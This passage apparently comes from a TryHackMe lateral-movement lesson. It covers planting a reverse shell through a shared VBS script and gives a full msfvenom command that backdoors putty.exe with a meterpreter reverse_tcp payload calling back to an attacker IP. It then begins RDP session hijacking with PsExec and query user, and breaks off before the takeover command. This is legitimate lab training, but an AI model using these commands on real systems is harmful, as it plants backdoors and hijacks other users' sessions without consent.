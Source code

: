 This will copy nc64.exe from the share to the user's workstationÂ `%tmp%`Â directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

  
### Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcpÂ meterpreterÂ payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the exploit/multi/handler module fromÂ Metasploit.


## RDPÂ hijacking

When an administrator uses Remote Desktop to connect to a machine and closes theÂ RDPÂ client instead of logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existingÂ RDPÂ session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's run a cmd.exe as administrator:

![Run as administrator](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7ba63227fb9d7244d5814b0e4fd57793.png)  

From there, runÂ `PsExec64.exe`(available atÂ `C:\tools\`):

```shell-session
PsExec64.exe -s cmd.exe
```

To list the existing sessions on a server, you can use the following command:

Command Prompt

```shell-session
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```

According to the command output above, if we were currently connected viaÂ RDPÂ using the administrator user, our SESSIONNAME would beÂ `rdp-tcp#6`. We can also see that a user named luke has left a session open with idÂ `3`.Â Any session with aÂ **Disc**Â state has been left open by the user and isn't being used at the moment. While you can take over active sessions as well, the legitimate user will be forced out of his session when you do, which could be noticed by them.

To connect to a session, we will use tscon.exe and specify the session ID we will be taking over, as well as our current SESSIONNAME. Following the previous example, to takeover luke's session if we were connected as the administrator user, we'd use the following command:
